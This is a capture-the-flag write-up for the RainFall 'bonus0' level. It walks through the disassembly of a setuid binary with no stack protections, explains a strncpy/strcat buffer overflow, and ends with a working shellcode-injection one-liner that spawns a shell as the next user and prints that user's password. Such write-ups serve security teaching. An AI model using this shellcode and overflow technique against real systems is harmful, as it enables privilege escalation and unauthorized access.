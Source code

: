 # Bonus 0

- We login as user bonus0:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
```

```
bonus0@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
bonus0@RainFall:~$ gdb bonus0
```

```
Dump of assembler code for function main:
   0x080485a4 <+0>:     push   %ebp
   0x080485a5 <+1>:     mov    %esp,%ebp
   0x080485a7 <+3>:     and    $0xfffffff0,%esp
   0x080485aa <+6>:     sub    $0x40,%esp
   0x080485ad <+9>:     lea    0x16(%esp),%eax
   0x080485b1 <+13>:    mov    %eax,(%esp)
   0x080485b4 <+16>:    call   0x804851e <pp>
   0x080485b9 <+21>:    lea    0x16(%esp),%eax
   0x080485bd <+25>:    mov    %eax,(%esp)
   0x080485c0 <+28>:    call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:    mov    $0x0,%eax
   0x080485ca <+38>:    leave  
   0x080485cb <+39>:    ret    
End of assembler dump.
```

```
Dump of assembler code for function pp:
   0x0804851e <+0>:     push   ebp
   0x0804851f <+1>:     mov    ebp,esp
   0x08048521 <+3>:     push   edi
   0x08048522 <+4>:     push   ebx
   0x08048523 <+5>:     sub    esp,0x50
   0x08048526 <+8>:     mov    DWORD PTR [esp+0x4],0x80486a0
   0x0804852e <+16>:    lea    eax,[ebp-0x30]
   0x08048531 <+19>:    mov    DWORD PTR [esp],eax
   0x08048534 <+22>:    call   0x80484b4 <p>
   0x08048539 <+27>:    mov    DWORD PTR [esp+0x4],0x80486a0
   0x08048541 <+35>:    lea    eax,[ebp-0x1c]
   0x08048544 <+38>:    mov    DWORD PTR [esp],eax
   0x08048547 <+41>:    call   0x80484b4 <p>
   0x0804854c <+46>:    lea    eax,[ebp-0x30]
   0x0804854f <+49>:    mov    DWORD PTR [esp+0x4],eax
   0x08048553 <+53>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048556 <+56>:    mov    DWORD PTR [esp],eax
   0x08048559 <+59>:    call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:    mov    ebx,0x80486a4
   0x08048563 <+69>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048566 <+72>:    mov    DWORD PTR [ebp-0x3c],0xffffffff
   0x0804856d <+79>:    mov    edx,eax
   0x0804856f <+81>:    mov    eax,0x0
   0x08048574 <+86>:    mov    ecx,DWORD PTR [ebp-0x3c]
   0x08048577 <+89>:    mov    edi,edx
   0x08048579 <+91>:    repnz scas al,BYTE PTR es:[edi]
   0x0804857b <+93>:    mov    eax,ecx
   0x0804857d <+95>:    not    eax
   0x0804857f <+97>:    sub    eax,0x1
   0x08048582 <+100>:   add    eax,DWORD PTR [ebp+0x8]
   0x08048585 <+103>:   movzx  edx,WORD PTR [ebx]
   0x08048588 <+106>:   mov    WORD PTR [eax],dx
   0x0804858b <+109>:   lea    eax,[ebp-0x1c]
   0x0804858e <+112>:   mov    DWORD PTR [esp+0x4],eax
   0x08048592 <+116>:   mov    eax,DWORD PTR [ebp+0x8]
   0x08048595 <+119>:   mov    DWORD PTR [esp],eax
   0x08048598 <+122>:   call   0x8048390 <strcat@plt>
   0x0804859d <+127>:   add    esp,0x50
   0x080485a0 <+130>:   pop    ebx
   0x080485a1 <+131>:   pop    edi
   0x080485a2 <+132>:   pop    ebp
   0x080485a3 <+133>:   ret
End of assembler dump.
```

```
Dump of assembler code for function p:
   0x080484b4 <+0>:     push   ebp
   0x080484b5 <+1>:     mov    ebp,esp
   0x080484b7 <+3>:     sub    esp,0x1018
   0x080484bd <+9>:     mov    eax,DWORD PTR [ebp+0xc]
   0x080484c0 <+12>:    mov    DWORD PTR [esp],eax
   0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:    mov    DWORD PTR [esp+0x8],0x1000
   0x080484d0 <+28>:    lea    eax,[ebp-0x1008]
   0x080484d6 <+34>:    mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>:    mov    DWORD PTR [esp],0x0
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
   0x080484e6 <+50>:    mov    DWORD PTR [esp+0x4],0xa
   0x080484ee <+58>:    lea    eax,[ebp-0x1008]
   0x080484f4 <+64>:    mov    DWORD PTR [esp],eax
   0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:    mov    BYTE PTR [eax],0x0
   0x080484ff <+75>:    lea    eax,[ebp-0x1008]
   0x08048505 <+81>:    mov    DWORD PTR [esp+0x8],0x14
   0x0804850d <+89>:    mov    DWORD PTR [esp+0x4],eax
   0x08048511 <+93>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048514 <+96>:    mov    DWORD PTR [esp],eax
   0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:   leave
   0x0804851d <+105>:   ret
End of assembler dump.
```

- Let's highlight the most important parts of the program:
```
   0x080485ad <+9>:     lea    0x16(%esp),%eax
   0x080485b1 <+13>:    mov    %eax,(%esp)
   0x080485b4 <+16>:    call   0x804851e <pp>
```
>The `<pp>` function is called with an address located at `0x16(%esp)`.

```
   0x08048526 <+8>:     mov    DWORD PTR [esp+0x4],0x80486a0
   0x0804852e <+16>:    lea    eax,[ebp-0x30]
   0x08048531 <+19>:    mov    DWORD PTR [esp],eax
   0x08048534 <+22>:    call   0x80484b4 <p>
   0x08048539 <+27>:    mov    DWORD PTR [esp+0x4],0x80486a0
   0x08048541 <+35>:    lea    eax,[ebp-0x1c]
   0x08048544 <+38>:    mov    DWORD PTR [esp],eax
   0x08048547 <+41>:    call   0x80484b4 <p>
```
>The `<p>` function is called twice, each time with a stack address.

```
   0x080484c8 <+20>:    mov    DWORD PTR [esp+0x8],0x1000
   0x080484d0 <+28>:    lea    eax,[ebp-0x1008]
   0x080484d6 <+34>:    mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>:    mov    DWORD PTR [esp],0x0
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
```

```
   0x080484e6 <+50>:    mov    DWORD PTR [esp+0x4],0xa
   0x080484ee <+58>:    lea    eax,[ebp-0x1008]
   0x080484f4 <+64>:    mov    DWORD PTR [esp],eax
   0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:    mov    BYTE PTR [eax],0x0
```

```
   0x080484ff <+75>:    lea    eax,[ebp-0x1008]
   0x08048505 <+81>:    mov    DWORD PTR [esp+0x8],0x14
   0x0804850d <+89>:    mov    DWORD PTR [esp+0x4],eax
   0x08048511 <+93>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048514 <+96>:    mov    DWORD PTR [esp],eax
   0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>
```
>The `<p>` function `<read@plt>` from stdin with a size of 4096, then attempts to replace the first '\n' in the read buffer with a '\0', and finally copies the first 20 bytes of this buffer to the address provided as a parameter to the function.

```
   0x0804854c <+46>:    lea    eax,[ebp-0x30]
   0x0804854f <+49>:    mov    DWORD PTR [esp+0x4],eax
   0x08048553 <+53>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048556 <+56>:    mov    DWORD PTR [esp],eax
   0x08048559 <+59>:    call   0x80483a0 <strcpy@plt>
```

```
   0x08048563 <+69>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048566 <+72>:    mov    DWORD PTR [ebp-0x3c],0xffffffff
   0x0804856d <+79>:    mov    edx,eax
   0x0804856f <+81>:    mov    eax,0x0
   0x08048574 <+86>:    mov    ecx,DWORD PTR [ebp-0x3c]
   0x08048577 <+89>:    mov    edi,edx
   0x08048579 <+91>:    repnz scas al,BYTE PTR es:[edi]
```
>The first buffer is copied to the address provided as a parameter to the `<pp>` function. Afterward, we will count the number of bytes that separate this address from the first '\0'.

```
   0x0804857b <+93>:    mov    eax,ecx
   0x0804857d <+95>:    not    eax
   0x0804857f <+97>:    sub    eax,0x1
   0x08048582 <+100>:   add    eax,DWORD PTR [ebp+0x8]
   0x08048585 <+103>:   movzx  edx,WORD PTR [ebx]
   0x08048588 <+106>:   mov    WORD PTR [eax],dx
```

```
   0x0804858b <+109>:   lea    eax,[ebp-0x1c]
   0x0804858e <+112>:   mov    DWORD PTR [esp+0x4],eax
   0x08048592 <+116>:   mov    eax,DWORD PTR [ebp+0x8]
   0x08048595 <+119>:   mov    DWORD PTR [esp],eax
   0x08048598 <+122>:   call   0x8048390 <strcat@plt>
```
>Put a space before the previously found '\0', then concatenate the second buffer.

- So, if the first buffer given to the `<p>` function doesn't contain a '\0', but the second one does, `<strcat@plt>` will concatenate the second buffer after the '\0' it contains, and its content could potentially overwrite the return address of the `<main>` function.

- We will place the shellcode in the first buffer and at the beginning of the second buffer, then the address of the start of our buffer at the end of the second buffer.
```
bonus0@RainFall:~$ (python -c "print('\x90\x90\x90\x90\x90\x90\x90\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73')"; python -c "print('\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\x36\xf7\xff\xbf' + 'a')"; cat) | ./bonus0

$ whoami
bonus1

$ cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9&
```
